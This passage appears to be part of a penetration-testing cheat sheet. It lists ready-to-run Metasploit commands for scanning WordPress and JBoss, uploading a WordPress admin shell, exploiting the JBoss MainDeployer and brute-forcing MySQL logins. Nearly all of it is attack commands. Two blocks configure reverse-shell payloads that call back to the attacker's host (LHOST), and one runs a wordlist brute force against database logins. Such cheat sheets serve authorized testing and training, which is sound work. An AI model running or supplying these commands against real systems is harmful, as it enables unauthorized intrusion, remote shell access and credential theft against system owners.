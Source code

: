 **WordPress Scanner**

```text
use auxiliary/scanner/http/wordpress_scanner
set RHOSTS <ip>
set RPORT 80
set TARGETURI /
run
```

**WordPress Admin Shell Upload (needs creds)**

```text
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS <ip>
set RPORT 80
set TARGETURI /
set USERNAME <admin>
set PASSWORD <password>
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <your_ip>
exploit
```

**JBoss Vuln Scan**

```text
use auxiliary/scanner/http/jboss_vulnscan
set RHOSTS <ip>
set RPORT 8080
run
```

**JBoss Main Deployer Exploit**

```text
use exploit/multi/http/jboss_maindeployer
set RHOSTS <ip>
set RPORT 8080
set TARGETURI /
set PAYLOAD java/jsp_shell_reverse_tcp
set LHOST <your_ip>
exploit
```

### Database

**MySQL Version / Login Brute Force**

```text
use auxiliary/scanner/mysql/mysql_version
set RHOSTS <ip>
run

use auxiliary/scanner/mysql/mysql_login
set RHOSTS <ip>
set USER_FILE users.txt
set PASS_FILE passwords.txt
set STOP_ON_SUCCESS true
run
```
